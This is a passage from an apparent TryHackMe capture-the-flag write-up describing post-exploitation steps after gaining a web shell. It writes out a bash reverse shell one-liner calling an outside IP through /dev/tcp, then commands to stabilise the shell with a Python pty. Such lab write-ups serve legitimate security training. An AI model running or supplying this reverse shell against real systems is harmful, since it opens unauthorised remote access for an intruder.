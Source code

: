 ![/assets/images/TryHackMe/hackerofthehill_hard/Untitled%208.png](/assets/images/TryHackMe/hackerofthehill_hard/Untitled%208.png)

So finally we have a web shell. Let's use bash reverse shell to get proper shell

```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.8.31.73/1234 0>&1'
```

Get a stable shell by creating a pty

```bash
www-data@6b364d3940e6:/var/www/html/public$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@6b364d3940e6:/var/www/html/public$ export TERM=xterm 
Ctrl +z 
$ stty raw -echo;fg 
# hit enter twice

```

